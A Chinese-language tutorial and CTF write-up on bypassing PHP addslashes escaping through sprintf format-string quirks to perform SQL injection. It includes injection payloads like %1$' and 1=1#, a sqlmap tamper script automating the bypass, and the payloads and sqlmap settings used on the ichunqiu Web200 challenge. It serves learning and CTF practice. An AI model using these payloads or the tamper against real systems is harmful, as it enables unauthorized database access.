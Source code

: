 # php中sprintf的使用方法
查阅[官方文档](http://php.net/manual/zh/function.sprintf.php)如果熟悉c语言的printf对sprintf的用法也不会很陌生。
```php
<?php
$num = 5;
$location = 'tree';
$format = 'There are %d monkeys in the %s';
echo sprintf($format, $num, $location);
?>
```
用`%`表示一个打印位置，后面用一些控制符来规定输出格式，我们重点关注这一条性质。
> 3. An optional padding specifier that says what character will be used for padding the results to the right string size. This may be a space character or a 0 (zero character). The default is to pad with spaces. An alternate padding character can be specified by prefixing it with a single quote ('). See the examples below.

大体意思是说我们可以指定宽度打印一个东西，如果需要的宽度比需要打印的东西多，那么我们就需要进行填充，默认以空格填充，或者以0填充，也可以用指定的字符填充，制定的字符前面要加上`'`，例子如下:
```php
<?php
$s = 'monkey';
$t = 'many monkeys';

printf("[%s]\n",      $s); // standard string output
printf("[%10s]\n",    $s); // right-justification with spaces
printf("[%-10s]\n",   $s); // left-justification with spaces
printf("[%010s]\n",   $s); // zero-padding works on strings too
printf("[%'#10s]\n",  $s); // use the custom padding character '#'
printf("[%10.10s]\n", $t); // left-justification but with a cutoff of 10 characters
?>
```
输出如下:
```
[monkey]
[    monkey]
[monkey    ]
[0000monkey]
[####monkey]
[many monke]
```
在第5行我们可以看到，我们使用了#作为填充符，`'`被识别为参数最终没有出现在最终的结果中，在条件适合的时候我们可以用格式化字符串的这个特性逃逸引号进行sql注入。
*****
同时我们关注另一个特性，如果我们想用另外的顺序映射对应格式化点和参数我们可以使用以下的方法：
```php
<?php
$format = 'The %2$s contains %1$d monkeys.
           That\'s a nice %2$s full of %1$d monkeys.';
echo sprintf($format, $num, $location);
?>
```
并且如果`%`后面跟了其他符号，会被直接无视。
# 通过格式化字符串绕过addslashes
如果我们能在格式化字符串中拼接`%‘ or 1=1#`，进入服务器后addslashes结果变成`%\' or 1=1#`，再拼接入待格式化的sql语句：
```sql
SELECT username, password FROM users where username='%\' or 1=1#'
```
因为`%\`不是任何一种输出类型，格式化后得到：
```sql
SELECT username, password FROM users where username='' or 1=1#'
```
成功逃逸
但是可能会出现php报错：`PHP Warning:  sprintf(): Too few arguments`
可以使用这样的payload:`%1$'`不会引起相关报错
### 利用条件
```php
$username = addslashes($_POST['username']);
$password = addslashes($_POST['password']);
$format = "SELECT * FROM user WHERE username='$username' and password=''%s';";
$sql = sprintf($format, $password);
```
总之就是要用户输入待格式化字符串的内容，并且输入或被addslashes
//真的蠢
### 相关tamper
```python
#!/usr/bin/env python
"""
Copyright (c) 2006-2018 sqlmap developers (http://sqlmap.org/)
See the file 'LICENSE' for copying permission
"""
import re

from lib.core.enums import PRIORITY

__priority__ = PRIORITY.NORMAL

def dependencies():
    pass

def tamper(payload, **kwargs):
    """
    Replaces quote character (') with a multi-byte combo %251%24%27 together with
    generic comment at the end (to make it work)

    Notes:
        * Useful for bypassing magic_quotes/addslashes feature

    >>> tamper("1' AND 1=1")
    '1%251%24%27-- '
    """

    retVal = payload

    if payload:
        found = False
        retVal = ""

        for i in xrange(len(payload)):
            if payload[i] == '\'' and not found:
                retVal += "%251%24%27"
                found = True
            else:
                retVal += payload[i]
                continue

        if found:
            _ = re.sub(r"(?i)\s*(AND|OR)[\s(]+([^\s]+)\s*(=|LIKE)\s*\2", "", retVal)
            if _ != retVal:
                retVal = _
                retVal += "-- "
            elif not any(_ in retVal for _ in ('#', '--', '/*')):
                retVal += "-- "
    return retVal
```
# ichunqiu Web200 SQLI WriteUp
又是开局一个登录页，做法全靠猜。扫个目录，没东西。
随便试几个用户名密码，发现用户名为admin的时候，回显`password error`，其他用户名显示`username error`，再传个数组进去试一下，发现addslashes报错，说明是使用了addslashes函数的，自然想到宽字节注入但是并没有什么卵用。
于是放到burpsuite的intruder里跑一跑waf字典，发现%符号会导致sprintf报错，于是确定是sprintf格式化字符串漏洞绕过单引号。
构造payload`username=admin%1$' and 1=1#&password=1`
和`username=admin%1$' and 1=0#&password=1`
发现存在布尔盲注注入点，所以可以自己写脚本或者用用sqlmap挂tamper做，需要注意的是sqlmap需要开到level 3及以上，并且如果dump出现错误，可以指定technique，用`--technique=B`实现。